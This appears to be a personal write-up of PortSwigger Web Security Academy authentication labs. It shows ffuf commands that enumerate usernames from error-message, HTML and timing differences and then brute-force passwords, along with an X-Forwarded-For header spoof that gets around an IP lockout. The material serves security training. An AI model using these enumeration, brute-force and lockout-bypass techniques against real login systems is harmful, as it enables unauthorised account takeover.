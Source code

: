 # Authentication

- https://portswigger.net/web-security/authentication/password-based
- https://portswigger.net/web-security/authentication/multi-factor
- https://portswigger.net/web-security/authentication/other-mechanisms

## Username enumeration via different responses

For exact examination of the differences of the requests Burp Intruder or Turbo Intruder could be used. 

But here I simply try to determine if for some username different error than 'Invalid username' is shown:

```
ffuf -u https://0ad9005104c150dd81f343a200e30077.web-security-academy.net/login -w portswigger-wordlists/usernames -d 'username=FUZZ&password=XYZ' -fr 'Invalid username'
```

It reviels one username (`an`) with new error: 'Incorect password'. 

Now time to brute-force the password:

```
ffuf -u https://0ad9005104c150dd81f343a200e30077.web-security-academy.net/login -w portswigger-wordlists/passwords -d 'username=an&password=FUZZ' -fr 'Incorrect'
```

And we manage to log in. Response with correct password could be found by different response size, status or regex for error.

## Username enumeration via subtly different responses

The response status never changes and the size is random, because of analitics ids that are different in every request.

Testing with this command did not return great results:

```
ffuf -u https://0a6a00d7044d695f82c3bbbf003800c4.web-security-academy.net/login -w portswigger-wordlists/usernames -d 'username=FUZZ&password=WongPass'
```

We might try to check if the content of the error message changes, but this time check whole html block with error, to ensure we catch even small differences.

```
ffuf -u https://0a6a00d7044d695f82c3bbbf003800c4.web-security-academy.net/login -w portswigger-wordlists/usernames -d 'username=FUZZ&password=WongPass' -fr '<p class=is\-warning>Invalid username or password\.</p>'
```

Username found (`academico`). 

Testing worng and correct username responses in Burp Proxy and reviewing them in Comparer revieled that error for correct username was 'Invalid username or password', and for incorrect one was 'Invalid username or password.' (Space instead of dot)

Now time to brute-force the password:

```
ffuf -u https://0a6a00d7044d695f82c3bbbf003800c4.web-security-academy.net/login -w portswigger-wordlists/passwords -d 'username=academico&password=FUZZ' -fc 200
```

Looked for different status code than 200 - because on success usually there is a redirect 3xx response - and found a matching password.

## Username enumeration via response timing

Tested making a POST login requests using Burp Interceptor with different params.

- Correct username and correct password - results in fast 302 response
- Correct username and not correct password - results with 200 and error message
- Correct username and very long not correct password - results in 200 with long delay and same error message
- Incorrect both - results in 200 with the same error message

The app probably first check the username and only if it match it checks for the password. Applying long password makes this step significantly longer.

Additionally after multiple error trials, app prevented us for further logging in for 30 minutes. No cookie was set, and the same error occured from different browser, so it may be tied up to my IP.

Adding `X-Forwarded-For: 8.8.8.8` to the request bypassed this protection, overwriting my IP with value here provided for the app.

Run the script to find the username
```
python3 username-enumeration-script-1.py
```

The script was not perfect and could be tuned better. It consistantly retuner `mysql` user for me, so I've decided its enough to go further.

Brute force the password:
```
python3 username-enumeration-script-1-password.py
```

